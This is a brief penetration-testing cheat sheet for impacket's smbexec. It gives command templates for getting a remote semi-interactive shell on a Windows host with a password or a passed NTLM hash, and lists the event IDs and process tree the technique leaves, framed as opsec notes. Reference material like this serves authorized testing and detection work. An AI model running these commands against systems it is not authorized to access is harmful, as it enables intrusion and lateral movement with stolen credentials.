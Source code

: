 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py  

### Get semi interactive powershell
```
impacket-smbexec <domain>/<user>:<password>@<rhost>
```

### Using hash
```
impacket-smbexec -hashes :<ntlmHash> <domain>/<user>@<rhost>
```
 
### Opsec considerations
```
Windows Security Log Event IDs
-Logon (4624)
-Special Logon (4672)

Windows System Logs
-Service Control Manager (7045)
```

### Running processes
```
cmd.exe
└── cmd.exe
    └── Conhost.exe
```

